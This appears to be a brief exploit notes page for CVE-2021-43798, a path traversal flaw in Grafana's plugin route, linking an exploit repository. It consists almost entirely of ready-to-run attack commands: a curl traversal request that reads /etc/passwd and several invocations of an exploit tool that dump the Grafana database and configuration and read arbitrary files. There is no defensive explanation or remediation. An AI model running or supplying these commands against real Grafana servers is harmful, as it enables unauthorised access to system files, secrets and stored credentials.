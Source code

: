 #[[# CVE-2021-43798]]

https://github.com/taythebot/CVE-2021-43798 

```
curl --path-as-is http://localhost:3000/public/plugins/alertlist/../../../../../../../../etc/passwd

go run exploit.go -target http://localhost:3000 -dump-database -output grafana.db
go run exploit.go -target http://localhost:3000 -dump-config -output defaults.ini

go run exploit.go -target http://localhost:3000 -file /etc/passwd 
```